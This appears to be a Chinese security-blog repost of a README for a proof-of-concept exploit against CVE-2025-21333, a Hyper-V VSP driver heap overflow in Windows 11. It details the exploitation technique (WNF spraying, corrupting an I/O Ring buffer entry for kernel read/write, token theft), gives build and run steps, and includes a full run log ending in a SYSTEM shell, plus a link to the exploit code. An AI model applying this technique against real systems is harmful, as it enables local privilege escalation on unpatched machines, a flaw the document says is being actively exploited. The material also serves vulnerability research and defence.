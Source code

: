 #  【PoC】Windows Hyper-V NT 内核集成 VSP 提权漏洞   
 独眼情报   2025-02-28 04:11  
  
# CVE-2025-21333-POC  
  
这是一个利用   
CVE-2025-21333  
 在 vkrnlintvsp.sys 中的漏洞的概念验证（不太可靠，详见需求和限制部分）。参考部分列出了对想要研究此漏洞利用的人非常有用的资源。 该漏洞被发现正在被威胁行为者积极利用。 已在 **Windows 11 23h2**  
 上测试。 它可能也适用于 **Windows 11 24h2**  
，但我尚未测试。 以下是用于测试此POC的 ntoskrnl.exe 和 vkrnlintvsp.sys 的哈希值。  
```
PS C:\Windows\System32\drivers> get-filehash .\vkrnlintvsp.sys
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          28948C65EF108AA5B43E3D10EE7EA7602AEBA0245305796A84B4F9DBDEDDDF77       C:\Windows\System32\drivers\v...
PS C:\Windows\System32\drivers>

```  
```
PS C:\Windows\System32> Get-FileHash ntoskrnl.exe
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          999C51D12CDF17A57054068D909E88E1587A9A715F15E0DE9E32F4AA4875C473       C:\Windows\System32\ntoskrnl.exe
PS C:\Windows\System32>

```  
## 覆写 I/O Ring 缓冲区条目以获取任意读/写  
  
该漏洞不使用 NtQuerySystemInformation 来泄露内核地址，也不使用 PreviousMode 来获取任意读/写。 相反，它在分页池中分配一个指向   
_IOP_MC_BUFFER_ENTRY  
 的指针数组，并用一个位于用户空间的恶意 IOP_MC_BUFFER_ENTRY* 覆写第一个指针。使用 _BuildIoRingWriteFile()_/_BuildIoRingReadFile()_  
 可以在内核中获得任意读/写能力。 指向 __IOP_MC_BUFFER_ENTRY_  
 的指针数组是一个带有 PoolTag **IrRB**  
 的对象。 这种技术与 Yarden Shafir 在  
这里  
记录的技术略有不同。与控制由 _IORING_OBJECT.RegBuffers  
 指向的整个数组不同，该技术**仅控制**  
由 _IORING_OBJECT.RegBuffers  
 指向的数组中的**一个条目**  
。 由于指针数组的大小可由用户控制，这意味着它可以用于从多个 LFH 存储桶的堆溢出和 UAF 开始获取可靠的内核中任意读/写能力。 我不知道是否有人已经分享了这种利用分页池中的溢出或 UAF 的技术。 这些截图是在执行 POC 后拍摄的。溢出发生在对象大小为 0x50 的存储桶中。注意可以在该存储桶中分配 RegBuffers 数组，且第一个指针指向用户空间内存。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnTo9eLLCxs64bsKrohs3qILNQia20NiapdRQDZ71lRm3XBViaA6ZhZ7ZyBdbn534q7TftmyrHYwoMAXQ/640?wx_fmt=png&from=appmsg "")  
  
注意恶意条目将 Address  
 设置为一个进程对象。_Address_ 对应于我们可能想要读取/写入的任意地址（这在 Yarden Shafir 的文章中已有详细描述）。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnTo9eLLCxs64bsKrohs3qILMg6Vwo77sLXuXLCubiaXnAib5EQzByRiaNOq00ESjtQiavL3WaTvNVWTiag/640?wx_fmt=png&from=appmsg "")  
## 需求和限制  
  
必须开启 **Windows 沙箱功能**  
，这样易受攻击的系统调用才会由易受攻击的驱动程序处理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnTo9eLLCxs64bsKrohs3qILYWhMpzyMMlJ4umfZG0wKpicO0fOZ0kLWXWGgOIW1CWk7MA7ChbEaxxg/640?wx_fmt=png&from=appmsg "")  
  
我设法获得了 **0xfff0 字节的溢出**  
。我没能使溢出长度完全可控。如果**溢出大于子段**  
，则可能会看到**崩溃**  
（这种情况可能会经常发生）。也许通过喷射更多对象可以最小化这种情况。 这个 POC 释放了 2 个 WNF 状态数据，以在这些位置重新分配一个 regBuffer（与 IORING_OBJECT 关联的   
_IOP_MC_BUFFER_ENTRY  
 指针数组）和一个 PipeAttribute。有时，在释放和重新分配之间，可能会有其他驱动程序在该位置分配另一个对象。可以在循环中使用其他被破坏的 WNF 状态数据对象执行多次重新分配尝试，以增加获得所需布局的可能性。 POC 代码相当混乱。 获得系统权限后，最好**在控制台中键入 exit 退出系统 shell**  
，否则**机器会崩溃**  
。  
## 编译和运行  
  
编译 x64 Release 版本。 运行并获取系统 shell。  
```
PS C:\Users\unpriv> .\CVE-2025-21333-POC.exe
Preparing...
[*] fNtCreateCrossVmEvent = 00007FFD6BC31690
[*] fNtQueryInformationProcess = 00007FFD6BC304E0
[!] WindowsSandboxClient.exe process not found
[*] spawning windows sandbox
[*] CreateProcessA returned successfully
[*] NtQueryInformationProcess returned successfully
[*] peb_addr = 0000000100335000
[*] ReadProcessMemory returned successfully
[*] ProcessParameters = 00000147B06A6430
[*] ReadProcessMemory returned successfully
[*] CommandLine = 00000147B06A6ADA
[*] CommandLine_size = 3f0
[*] commandline = C:\Windows\system32\WindowsSandboxClient.exe <ContainerId>19a1ef14-ee35-47d8-8bdb-cf4c86272272</ContainerId><AccountUser>WDAGUtilityAccount</AccountUser><AccountPassword>66387310-a27d-4a59-a688-3ab018388c9e</AccountPassword><AudioInputEnabled>true</AudioInputEnabled><ClipboardRedirectionEnabled>true</ClipboardRedirectionEnabled><RebootSupported>true</RebootSupported><SmartCardRedirectionEnabled>false</SmartCardRedirectionEnabled><FullScreenMode>false</FullScreenMode><TargetDisplay>0</TargetDisplay>
[*] extracted guid = 19a1ef14-ee35-47d8-8bdb-cf4c86272272
[*] s_guid = 19a1ef14-ee35-47d8-8bdb-cf4c86272272
Created GUID
extracted guid
0x000000: 14 ef a1 19 35 ee d8 47 8b db cf 4c 86 27 22 72  ....5..G...L.'"rguid0x000000: 14 ef a1 19 35 ee d8 47 8b db cf 4c 86 27 22 72  ....5..G...L.'"rTriggering vuln creating crossvmevent...max corrupted WNFstate: a18d294541c64e6d val: 0  dataSize: 10040calling NtqueryWnfStateData on max_corrupted with max_corrupted->state a18d2945a18d2945 and datasize10040buffer content[+] found WNF to be freed and replaced with RegBuffersoffset 30[+] found WNF to be freed and replaced with PipeAttributeoffset2 80updating regBuffersControllerWNFcalling NtUpdateWnfStateData on tokenReaderWNF->state a18d2945a18d2945 and datasize10040calling NtUpdateWnfStateData returned successfully[*] retrieving WNF with content 0x4343434343434343[*] retrieving WNF with content 0x4444444444444444searching in statenames2found corrupted WNF: a18d514541c64e6dval: 4343434343434343found corrupted WNF: a18d614541c64e6dval: 4444444444444444found1 1 found2 1found1 1 found2 1found1 1 found2 10x000000: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000020: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000030: 00 00 05 0b 49 72 52 42 64 b9 76 d3 e4 ff d1 c6  ....IrRBd.v.....0x000040: a0 a1 b1 f1 09 e3 ff ff 00 00 00 00 00 00 00 00  ................0x000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000060: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000070: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000080: 00 00 05 03 4e 70 41 74 00 00 00 00 00 00 00 00  ....NpAt........0x000090: d0 01 2b 47 0a d1 ff ff d0 01 2b 47 0a d1 ff ff  ..+G......+G....0x0000a0: 38 81 2a 4d 0a d1 ff ff 16 00 00 00 00 00 00 00  8.*M............0x0000b0: 3a 81 2a 4d 0a d1 ff ff 5a 00 41 41 41 41 41 41  :.*M....Z.AAAAAA0x0000c0: 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA0x0000d0: 00 00 05 03 57 6e 66 20 42 42 42 42 42 42 42 42  ....Wnf BBBBBBBB0x0000e0: 00 00 00 00 50 ff 00 00 50 ff 00 00 01 00 00 00  ....P...P.......0x0000f0: 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000100: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000110: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................0x000120: 00 00 05 03 57 6e 66 20 42 42 42 42 42 42 42 42  ....Wnf BBBBBBBB0x000130: 00 00 00 00 00 ff 00 00 00 ff 00 00 01 00 00 00  ................0x000140: 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................[+] regBuffers found and can be overwritten[+] pipeAttribute found and can be read[*] original_regBufferEntry: ffffe309f1b1a1a0[*] pipeAttributeFlink: ffffd10a472b01d0[+] found target handle[*] targetHandle: 00000211216BC4D0[*] ioring index: 425[*] fileObject: ffffe309f134d7e0[*] base of npfs.sys: fffff80631660000[*] base of ntoskrnl.exe: fffff80628c00000[*] system EPROCESS: ffffe309ea4c2040[*] system TOKEN: ffffd10a3a246040[*] curpid: 21c8Microsoft Windows [Version 10.0.22631.4460](c) Microsoft Corporation. All rights reserved.C:\Users\unpriv>whoamint authority\systemC:\Users\unpriv>exitcalling NtUpdateWnfStateData returned successfullyPS C:\Users\unpriv>
```  
>   
> PoC见： https://github.com/MrAle98/CVE-2025-21333-POC  
  
  
  
